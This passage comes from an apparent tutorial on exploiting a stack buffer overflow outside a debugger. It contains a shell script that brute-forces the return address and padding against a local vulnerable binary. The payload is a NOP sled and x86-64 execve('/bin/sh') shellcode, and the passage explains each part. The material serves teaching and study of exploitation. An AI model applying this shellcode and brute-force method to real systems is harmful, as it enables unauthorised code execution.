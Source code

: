 The reader should at this point play around with executables such as the `C`-code above to get an idea of to impact of the environment variables on the addresses of variables stored on the stack.

In addition to the arguments length and the environment, `gdb` might add other (control) elements to the stack, that have an impact on the address of the variable where the shellcode will be stored and/or the distance between memory address of the variable and memory address where the return pointer is stored. As consequence, we have to adapt the exploit we have found in `gdb` in order for it to work outside of the debugger's environment. Unfortunately, there is no tool that would enable us to precisely inspect the stack as we did it with the debugger, so we have to guess the correct parameters in a trial-and-error manner.

The following shell-script supports us in the process of guessing the correct parameters:

```
#!/bin/sh

shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\
x69\x6e\x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05"

addr="\xdc\xff\xff\xff\x7f"

zeros=""
zerosinit="\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\
x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30"

addrbytes=""

for ((i=0;i<16;i++))
do
    zeros=$zerosinit
    for ((j=0;j<12;j++))
    do
        printf "Added zeros: %d\n" "$j"
        printf "Address last byte: %d\n" "$i"
        addrbytes=$(printf "%s%x%x" "\x" "$i" "1")
        <path>/vulnerable $(printf "%b%b%b%b" "$shellcode" "$zeros" "$addrbytes" "$addr")
        zeros="$zeros\x30"
    done
done

```

The shellscript works as follows:
- Variable `shellcode` contains to original shellcode from the above paragraphs. We have added a few so called `NOP`-instructions `\x90' ("No-OPeration') that do nothing. This is a so called "`NOP`-sled" that creates some kind of a landing zone for the target address, i.e., we do not have to find the target address precisely, if the return address matches one of the `NOP`s, the shellcode will be executed.
- The `addr` variable contains the five most significant bytes of the target address (note the little-endian order of the bytes). The second least significant byte of the address has been chosen the same as in the `gdb` exploit.
- `zerosinit` is initially set to contain 14 `0` strings.
- The outer `for`-loop runs over all 16 possibilities of the "most significant" half-byte in the last byte of the destination-address.
- The inner `for`-loop adds between 0 and 12 `0`-strings to test potentially differing distances between the location of the stored return-address and the address of the variable that will contain our shellcode.
- Note that in the composition of the last address-byte, we restrict ourselves to "1" as the least-significant half-byte. The reason is we cannot compose a hex-string that contains a null, since the null would be omitted by `printf`.
